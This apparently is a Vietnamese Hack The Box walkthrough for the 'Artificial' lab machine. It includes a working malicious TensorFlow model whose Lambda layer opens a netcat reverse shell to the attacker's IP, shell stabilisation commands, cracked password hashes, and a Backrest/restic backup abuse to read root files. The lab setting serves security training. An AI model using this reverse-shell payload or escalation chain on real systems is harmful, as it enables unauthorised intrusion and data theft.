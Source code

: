 <p align="center"><img src="image/image.png" /></p>

# Artificial Hackthebox
## Nmap, ssh, john, retic, sqlite3
### Nmap
```
nmap -sCV artificial.htb -oA nmap/output
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</pre>

### Mở trang port 80
<p align="center"><img src="image/image1.png" /></p>

### Đăng kí và tạo tài khoản chạy mã độc
Tham khảo khai thác [link](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
</pre>
Chạy python3.10 với tensor `tensorflow-cpu==2.13.1` để gen ra file exploit.h5
### Upload file và view prediction
Lắng nghe cổng 6666
```
nc -lvnp 6666
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
nc -lvnp 6666                  
listening on [any] 6666 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.74] 46890
/bin/sh: 0: can't access tty; job control turned off
$ ls
</pre>
Giữ phiên 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
script /dev/null -qc /bin/bash
SHELL=/bin/bash script -q /dev/null
Ctrl + z
stty raw -echo; fg
```
### Crask mật khẩu
Tìm file user.db trong `~/app/instance/users.db`. 
Crash trên `craskstation.net`
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
c99175974b6e192936d97224638a34f8	md5	mattp005numbertwo
</pre>
### SSH vào user `gael`
Thấy có trong group `sysadm`
```
id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```
 

Tìm thư mục thuộc group `sysadm`
```
find / -group sysadm 2>/dev/null

/var/backups/backrest_backup.tar.gz
```

Tải về  và check `config.json`

<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
    {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
</pre>
### Dùng cyberchef để decode base64
<p align="center"><img src="image/image2.png" /></p>

### Dùng john crask pass 
```
john --wordlist=/usr/share/wordlists/rockyou.txt  hash    
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^           (?)     
1g 0:00:00:07 DONE (2025-06-27 10:11) 0.1356g/s 732.7p/s 732.7c/s 732.7C/s derek1..huevos
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Pass `!@#$%^`

### Và thấy mở port `8989`

```
netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:* 
```
Forward port 
```
 ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
 ```
### Đănng nhập `http://127.0.0.1:9898/#/plan/test`
User `backrest_root` pass `!@#$%^`
### Khai thác back up restic
#### Tạo repo test mount vs thư mục `tmp/test`
#### Tạo plan vs back up `root/root.txt` để lấy flag hoặc `/root/.ssh/id_rsa` để ssh vào root
#### Back up now xong đó check id và ấn `Run command`chạy lệnh 
``` 
dump 9c6c400b /root/root.txt
```